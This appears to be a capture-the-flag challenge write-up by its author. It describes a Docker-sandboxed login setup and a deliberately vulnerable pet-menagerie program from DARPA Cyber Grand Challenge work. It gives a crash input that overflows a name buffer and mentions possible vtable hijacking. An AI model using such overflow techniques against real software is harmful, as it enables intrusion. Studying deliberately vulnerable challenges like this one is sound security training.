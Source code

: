 
Setting up this challenge, I rely on Docker containers.
Specifically, when you ssh into the machine, you are
in your own little world. Let's talk about that world.

Your entry in `/etc/passwd`:


```
root@ip-172-31-43-33:/etc# grep toddler /etc/passwd
toddler:x:1002:1002:Toddler:/home/toddler:/bin/dosh2
```

Your entry in `/etc/sudoers`:

```
toddler ALL=(root) NOPASSWD: /bin/shell2docker2
```

Your shell in `/bin/dosh2`:

```
# cat /bin/dosh2
#!/bin/bash
sudo /bin/shell2docker2
```

The continuation of the shell `/bin/shell2docker`:

```
#!/bin/bash
if [ $SUDO_USER ]; then
  username=$SUDO_USER
else
  username=$(whoami)
fi
uid="$(id -u $username)"
gid="$(id -g $username)"
ID=`docker run --rm -d \
  -u $uid:$gid \
  --network none \
  -v /etc/passwd:/etc/passwd:ro \
  -v /etc/group:/etc/group:ro \
  pet /bin/sh -c "sleep 120"`

/bin/killme $ID &
exec docker exec -it $ID /home/pet/tracer
```

Ok, so once you ssh into the machine you're in a Docker container created for
your shell. The program `/bin/killme` is a program hardcoded with an alarm
for 2 minutes. It shuts down the docker container
(using `docker kill [containerid]`).

# The challenge

This challenge is actually one I wrote while working on the
[DARPA Cyber Grand Challenge](https://www.darpa.mil/program/cyber-grand-challenge)
called
[TNETS\_0002](https://github.com/CyberGrandChallenge/samples/tree/master/examples/TNETS_00002).
It was primarily to test whether C++ programs could, in fact, be used to generate
challenges in the [DECREE](https://blog.legitbs.net/2016/05/what-is-decree.html)
environment (a operating system environment with only 7 system calls).

Like challengers in the Cyber Grand Challenge, your task is to find a way of crashing
the program (this is called a Proof of Vulnerability). If I had time, I was going to
add a second challenge that built on this which would require you to not only crash
it, but also demonstrate control of the program counter by causing it to crash with
a specific address in the program counter. I ran out of time, sorry.

# The protocol

The program allows you to create a menagerie of pets, but each command must be prefaced
with a sequence number (not too hard for a human to deduce, but a little tougher for
a automated system to reason about).

# The exploit

Creating an animal, you can give it a name. When you name that pet again,
instead of replacing the name you gave it earlier, the new name is appended
to the previous. Give your pet a long enough name and you'll be given a
segmentation fault.

```
list init...
1 create cat
init..
1 name 0 aaaaa
bad sequence
2 name 0 aaaaaaa
3 name 0 aaaaaaa
4 name 0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
5 name 0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
6 name 0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
7 name 0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
8 name 0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

# The longer exploit

When you crash this program, you're overwriting a buffer in the class structure.
Nearby there is a vtable and it should be possible to construct a valid vtable
and cause the binary to crash by jumping to an arbitrary address. I welcome
a proof of concept on this.

